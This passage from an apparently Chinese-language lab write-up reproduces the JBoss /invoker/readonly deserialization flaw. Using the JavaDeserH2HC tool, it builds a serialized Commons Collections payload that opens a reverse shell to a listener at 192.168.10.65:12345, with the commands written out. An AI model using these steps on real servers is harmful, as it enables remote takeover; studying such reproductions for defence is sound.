     Jboss AS 5.x   
    Jboss AS 6.x  
    

#### 漏洞验证

访问/invoker/readonly，返回500（内部服务器错误——服务器端的CGI、ASP、JSP等程序发生错误），说明此页面存在反序列化漏洞

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830200959.png)image-20210820144055866

#### 漏洞复现

下载漏洞利用工具：https://github.com/joaomatosf/JavaDeserH2HC

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201000.png)image-20210823090347902

编译（需要java环境）

    
    
    cd /opt  
    curl http://www.joaomatosf.com/rnp/java_files/jdk-8u20-linux-x64.tar.gz -o jdk-8u20-linux-x64.tar.gz  
    tar zxvf jdk-8u20-linux-x64.tar.gz  
    rm -rf /usr/bin/java*  
    ln -s /opt/jdk1.8.0_20/bin/j* /usr/bin  
    javac -version  
    java -version  
    

这里我已经安装好

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201001.png)image-20210820144519927

开启监听

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201002.png)image-20210820144803249

选择一个Gadget：ReverseShellCommonsCollectionsHashMap，编译并生成序列化数据；生成ReverseShellCommonsCollectionsHashMap.class；

    
    
    javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.ja  
    va  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201003.png)image-20210823090310580

生成序列化数据ReverseShellCommonsCollectionsHashMap.ser

    
    
    java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192  
    .168.10.65:12345  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201004.png)image-20210823090832540

利用ReverseShellCommonsCollectionsHashMap.ser，以二进制格式发送ReverseShellCommonsCollectionsHashMap.ser包
